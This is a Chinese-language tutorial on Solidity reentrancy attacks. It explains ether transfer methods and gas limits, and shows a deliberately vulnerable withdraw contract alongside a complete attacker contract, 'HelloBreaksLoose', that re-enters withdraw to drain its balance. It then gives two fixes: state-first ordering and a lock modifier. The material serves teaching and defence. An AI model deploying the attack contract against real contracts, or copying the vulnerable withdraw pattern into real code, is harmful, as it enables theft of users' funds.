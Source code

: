 # 重入攻击

Solidity支持在智能合约中以三种方式传输ether，分别是send(), transfer(), call.value()。这三种方式的不同之处在于两点，一是它们使用的gas数量不同，如果转账的接收方是一个智能合约，接收方智能合约还可以执行其他逻辑或调用其他函数，可能还会消耗额外的gas，二是它们处理异常的方式不同。send()和call().value()在失败时仅返回false，但是transfer()将抛出一个异常，该异常会将状态回滚到该函数调用之前的状态。这三种方式的总结如下

![1.png](1.png)

因此，send()函数应该始终位于require语句中，通知我们执行失败的情况，也就是说，执行失败之后，通过require语句回滚。

当使用transfer()时，不需要使用require语句，我们都可以知道执行失败，因为会抛出异常并回滚状态。

最后，对于call()，和send()一样，如果发生错误，它仍然返回false，也需要对其使用require语句。call()与send()和transfer()的主要区别是可以通过.call{value: _amount, gas: gasValue}(“”)设置gas限制。如果接收ether的智能合约的payable函数要执行复杂的逻辑，需要消耗大量的gas，那么限制gas是必要的。

一个合约最多可以有一个receive函数，使用receive() external payable { ... }声明(不带function关键字)。这个函数不能有参数，不能有任何返回，必须具有external可见性，且必须用payable修饰，表示可以接收ether。在使用空的calldata调用一个合约时执行合约的receive函数。这是在普通ether传输(例如通过.send()或.transfer())时接收方合约执行的函数。如果不存在receive函数，但存在一个payable fallback函数，则fallback函数将在普通ether传输时被调用。如果既没有receive函数，也没有payable fallback函数，合约就不能通过常规交易接收ether，并将抛出一个异常。

在最坏的情况下，当使用send()或transfer()发送ether时，接收方合约的fallback函数只能依赖于2300可用的gas，除了基本的日志记录外，几乎没有多余的gas来执行其他操作。以下操作将消耗超过2300的gas

- 向storage中写数据

- 创建一个合约

- 调用消耗大量gas的external函数

- 发送ether

但是近年来，使用call()函数而非send()和transfer()来传输ether已经成为一种规范，原因如下:任何使用transfer()或send()的智能合约都通过转移2300 gas给接收方合约而严重依赖于一个固定的gas成本。这个固定的2300 gas成本可能会随着未来的硬分叉而改变。这篇博客更详细地介绍了为什么要用call而不是send或transfer：

[https://consensys.net/diligence/blog/2019/09/stop-using-soliditys-transfer-now](https://consensys.net/diligence/blog/2019/09/stop-using-soliditys-transfer-now)

上述的整个背景对于理解重入攻击是必要的。以下列合约为例

```
// SPDX-License-Identifier: Unlicensed
pragma solidity ^0.6.10;
contract EtherRentrancy {
    
    mapping (address => uint256) public balances;
    address public owner;
    
    constructor() public {
        owner = msg.sender;
    }
    
    function deposit() public payable{
        balances[msg.sender] += msg.value;
    }
    
    
    function withdraw(uint _amount) public {
        require (balances[msg.sender] >= _amount, "Insufficient funds");
        
        (bool sent, ) = msg.sender.call{value: _amount}("");
        require(sent, "Failed to send funds");
        
        balances[msg.sender] -= _amount;
    }
    
    function getBalance() public view returns(uint){
        return address(this).balance;
        
    }
    
}
```

在本合约中，任何有效的以太坊地址都可以通过deposit函数存入ether，也可以通过withdraw函数提取ether。

下面这个合约就是黑客用来从上述合约中抽走所有资金的合约。

```
// SPDX-License-Identifier: Unlicensed
pragma solidity ^0.6.10;

import "./EtherRentrancy.sol";

contract HelloBreaksLoose{
    EtherRentrancy etherrentrancy;
    
    constructor(address _etherrentrancy) public {
        etherrentrancy = EtherRentrancy(_etherrentrancy);
    }
    receive() external payable {
        if (etherrentrancy.getBalance() >= 1 ether){
            etherrentrancy.withdraw(1 ether);
            
        }
    }
    function attack() external payable{
        require(msg.value >= 1 ether);
        etherrentrancy.deposit{value: msg.value}();
        etherrentrancy.withdraw(1 ether);
        
        
    }
    function getBalance() public view returns(uint){
        return address(this).balance;
        
    }
}
```

该攻击合约的构造函数用EtherRentrancy合约的地址初始化。

以下是调用此合约函数attack()函数时的执行步骤：

1. 调用attack()

2. 调用deposit()函数往EtherRentrancy中存入1 ether

3. 调用EtherRentrancy合约的withdraw()函数

4. withdraw()函数反过来又调用HelloBreaksLoose的receive函数

5. HelloBreaksLoose的receive函数会再次调用EtherRentrancy合约的withdraw()函数

最后两个步骤-步骤4和步骤5-将循环运行，直到EtherRentrancy合约的余额小于1 ether。

有两种方法可以阻止这种攻击:

1. 修改withdraw函数:在从合约进行任何external调用之前更新状态变量，也就是说，更新状态变量在前，调用call()在后。

```
// SPDX-License-Identifier: Unlicensed
pragma solidity ^0.6.10;
contract EtherRentrancy {
    
    mapping (address => uint256) public balances;
    address public owner;
    
    constructor() public {
        owner = msg.sender;
    }
    
    function deposit() public payable{
        balances[msg.sender] += msg.value;
    }
    
    
    function withdraw(uint _amount) public {
        require (balances[msg.sender] >= _amount, "Insufficient f unds");
        // 现在对状态变量balances的更新发生在call调用之前，攻击者将无法提取超过他/她自己存入的资金。
		// 后续对该函数的调用将失败，因为攻击者（存款人）将没有资金。
        balances[msg.sender] -= _amount;
        (bool sent, ) = msg.sender.call{value: _amount}("");
        require(sent, "Failed to send funds");
    }
    
    function getBalance() public view returns(uint){
        return address(this).balance;
        
    }
    
}
```

2. 使用modifier blockRentrancy:这个办法是在合约的任何函数在执行时锁定合约，这样一次只能执行合约中的一个函数。当HelloBreaksLoose调用EtherRentrancy合约的withdraw()函数后，withdraw()函数反过来又调用HelloBreaksLoose的receive函数，但HelloBreaksLoose的receive函数没法再次调用EtherRentrancy合约的withdraw()函数，因为合约已经被加锁了，EtherRentrancy合约的withdraw()函数不能重入，所以攻击不能成功。具体代码如下：

```
// SPDX-License-Identifier: Unlicensed
pragma solidity ^0.6.10;
contract EtherRentrancy {
    bool internal locked; // 只有合约能够改变这个变量
    modifier blockRentrancy {
        require(!locked, "Contract is locked");
        locked = true;
         _;
        locked = false; // 在函数执行结束之后解锁
    }
    
    mapping (address => uint256) public balances;
    address public owner;
    
    constructor() public {
        owner = msg.sender;
    }
    
    function deposit() public payable{
        balances[msg.sender] += msg.value;
    }
    
    
    function withdraw(uint _amount) public blockRentrancy {
        require (balances[msg.sender] >= _amount, "Insufficient funds");
        
        (bool sent, ) = msg.sender.call{value: _amount}("");
        require(sent, "Failed to send funds");
        
        balances[msg.sender] -= _amount;
    }
    
    function getBalance() public view returns(uint){
        return address(this).balance;
        
    }
    
}
```


